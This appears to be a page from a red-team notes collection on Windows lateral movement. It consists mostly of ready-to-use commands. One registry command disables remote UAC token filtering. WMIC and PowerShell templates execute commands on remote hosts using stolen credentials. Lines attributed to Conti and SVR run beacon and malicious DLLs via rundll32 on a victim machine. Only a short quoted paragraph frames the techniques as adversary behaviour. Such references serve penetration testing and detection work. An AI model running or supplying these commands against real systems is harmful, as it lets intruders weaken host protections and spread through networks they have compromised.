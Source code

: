 # Lateral Movement

## Disable Remote UAC Restrictions

{% code overflow="wrap" %}
```powershell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
{% endcode %}

## WMIC

Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)&#x20;

WMI allows users with the required privileges to execute commands in remote hosts without additional tools. Adversaries abuse this feature to move laterally in a compromised network. Adversaries used the following commands to execute commands in a remote host.

{% code overflow="wrap" %}
```powershell
wmic /node:<remote_ip> /user:<username> /password:<password> process call create cmd.exe /c "<command>"
```
{% endcode %}

Or, with PowerShell:

{% code overflow="wrap" %}
```powershell
Invoke-WMIMethod -class Win32_Process -Name Create -ArgumentList "cmd /c <command>" -ComputerName <remote_hostname>
```
{% endcode %}

Conti TTP

{% code overflow="wrap" %}
```powershell
wmic /node:victim_ip process call create "rundll32.exe C:/ProgramData/beacon_dll DllRegisterServer"
```
{% endcode %}

Russian Foreign Intelligence Service (SVR) TTP

{% code overflow="wrap" %}
```powershell
wmic /node:<remote_host's_IP> /user:<username> /password:<password> process call create "rundll32 C:\Windows\system32\AclNumsInvertHost.dll AclNumsInvertHost"
```
{% endcode %}
